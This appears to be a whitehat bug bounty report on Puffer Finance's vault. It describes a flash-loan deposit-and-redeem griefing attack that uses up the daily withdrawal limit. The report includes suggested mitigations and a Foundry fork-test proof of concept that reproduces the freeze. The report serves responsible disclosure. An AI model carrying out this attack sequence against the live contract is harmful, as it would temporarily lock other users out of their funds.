 # Blocking redeem/withdraw from vault
Submitted about 2 months ago by @ox7a69 (Whitehat) for Boost | Puffer Finance

Report ID: #28656
Report type: Smart Contract
Has PoC? Yes
Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

# Impacts
- Temporary freezing of funds for at least 1 hour

# Details
Description

# Vulnerability Details
The attacker can deplete daily withdrawal limit by taking flash loan, making a deposit and an immediate withdrawal. There is no risks or fees involved for the attacker. This behavior prevents benign users from redeeming/withdrawing from the vault.

By default there is a `100 ETH` daily limit for withdrawal.

```
function initialize() public reinitializer(2) {
    // In this initialization, we swap out the underlying stETH with WETH
    ERC4626Storage storage erc4626Storage = _getERC4626StorageInternal();
    erc4626Storage._asset = _WETH;

    _setDailyWithdrawalLimit(100 ether);  // @audit
    _updateDailyWithdrawals(0);
}
```

To mitigate the issue:

- Replenish the daily limit whenever a mint/deposit occur.
- Prohibit flash deposit-redeem actions taking place in one tx.

# Proof of concept
Proof of Concept
To run the PoC place the file inside `test/Integration/Immunefi.fork.t.sol` and run the following command.

`ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430`

```
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.8.0 <0.9.0;

import { TestHelper } from "../TestHelper.sol";

import "forge-std/console.sol";

contract Immunefi is TestHelper {

    error ERC4626ExceededMaxRedeem(address owner, uint256 shares, uint256 max);

    // ETH_RPC_URL=URL forge test --mp test/Integration/Immunefi.fork.t.sol --mt test_griefing  --fork-url URL --fork-block-number 19285430
    function test_griefing() public {
        address attacker = address(101);
        address user = address(102);

        vm.deal(user, 10 ether);

        // 1. User deposits ETH.
        vm.startPrank(user);
        uint256 shares = pufferVault.depositETH{value: 10 ether}(user);
        vm.stopPrank();

        // 2. Attacker takes flash loan, deposits and then redeems.
        //    No loses/risks/fees for the attacker.
        //    Attacker depletes daily withdraw limit, which is 100 ETH by default.
        vm.deal(attacker, 100 ether);
        vm.startPrank(attacker);
        uint256 shares_attacker = pufferVault.depositETH{value: 100 ether}(attacker);
        pufferVault.redeem(shares_attacker, attacker, attacker);
        vm.stopPrank();

        // 3. No one can redeem/withdraw.
        vm.startPrank(user);
        vm.expectRevert(
            abi.encodeWithSelector(ERC4626ExceededMaxRedeem.selector, user, shares, pufferVault.maxRedeem(user))
        );
        pufferVault.redeem(shares, user, user);
        vm.stopPrank();
    }
}
```
